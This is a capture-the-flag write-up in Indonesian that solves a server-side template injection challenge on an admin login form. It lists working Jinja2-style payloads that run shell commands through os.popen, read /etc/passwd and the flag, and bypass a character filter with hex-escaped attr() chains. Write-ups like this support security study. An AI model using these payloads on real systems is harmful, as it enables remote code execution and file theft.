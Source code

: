 # SSTI 2

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

File terkait: ![SSTI2](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
2. Input payload SSTI sederhana, misal: `{{7*9}}` pada field username atau password.

   ![Test Payload](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.1.png)

3. Jika output pada halaman berubah menjadi `63`, maka aplikasi rentan SSTI.

   ![Output](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.2.png)
   
4. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```

   ![Eksploitasi File](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.3.png)
   
5. Ternyata payload diatas telah terblok karena beberapa tanda, cara untuk mengelabuinya adalah menggunakan unicode.
   ```
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
   ```
   ![Berhasil](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.4.png)

6. Kita menggunakan payload lain yang dapat membaca flag tersebut
   ```
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

   ```
   ![flag](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.5.png)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`
- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}`
- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

## Referensi


- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)


